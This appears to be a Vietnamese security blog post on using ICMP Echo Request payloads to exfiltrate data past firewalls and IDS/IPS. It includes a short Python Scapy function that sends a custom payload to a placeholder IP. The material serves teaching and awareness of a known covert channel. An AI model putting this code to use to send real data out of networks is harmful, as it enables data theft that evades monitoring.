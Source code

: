 ```yaml
---
title:  "ICMP Packets with Payload"
date: 2025-04-13 10:00:00 +0700
comments: true
description: How to Create ICMP Packets with Payload to Exfiltrate Data
categories: [Cybersecurity, Networking]
toc: true
tags: [protocol, python, packet, icmp]
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-04-13-how-to-create-icmp-packet-with-payload-exfiltrate-data/icmp.png
    alt: Icmp
---
```


## Introduction
---
Trong một số tình huống, kẻ tấn công có thể lợi dụng giao thức ICMP để gửi dữ liệu ra ngoài mạng, vượt qua các tường lửa và hệ thống Phát hiện/Ngăn chặn xâm nhập (IDS/IPS). Điều này có thể được thực hiện bằng cách nhúng dữ liệu vào các gói ICMP Echo Request và Echo Reply, khiến việc phát hiện việc xâm nhập trở nên khó khăn hơn.

Các gói ICMP, thường được sử dụng cho các chẩn đoán mạng như "ping", có thể bị thao túng để mang theo các payload tùy chỉnh (dữ liệu) mà kẻ tấn công muốn gửi.

## ICMP Payload Theory
---
- **ICMP Echo Request (Loại 8) và Echo Reply (Loại 0)** là các loại gói ICMP phổ biến, thường được sử dụng cho các yêu cầu ping. Tuy nhiên, ngoài việc kiểm tra kết nối, chúng có thể chứa một payload — dữ liệu mà kẻ tấn công muốn gửi.
  
- **Payload** đề cập đến dữ liệu được bao gồm trong gói ICMP. Dữ liệu này có thể là văn bản thuần túy, thông tin đã mã hóa hoặc thậm chí là dữ liệu bị đánh cắp.

## Creating ICMP Packets with Payload
---
Bạn có thể tạo các gói ICMP với payload tùy chỉnh bằng cách sử dụng Python và thư viện `Scapy`. Dưới đây là ví dụ về cách tạo một gói ICMP Echo Request với payload tùy chỉnh.

```python
from scapy.all import IP, ICMP, send

def send_icmp_payload(target_ip, message):
    # The payload is the message you want to send, can be encoded data
    payload = bytes(message, 'utf-8')

    # Create an ICMP Echo Request packet
    packet = IP(dst=target_ip) / ICMP(type=8) / payload  # type=8 is Echo Request

    # Send the packet
    print(f"Sending ICMP Echo Request with payload to {target_ip}")
    send(packet)

## Target IP and the message to be sent
target_ip = "192.168.x.x"  # Replace with the actual target IP address
message = "This is a test payload that could contain exfiltrated data."

send_icmp_payload(target_ip, message)
```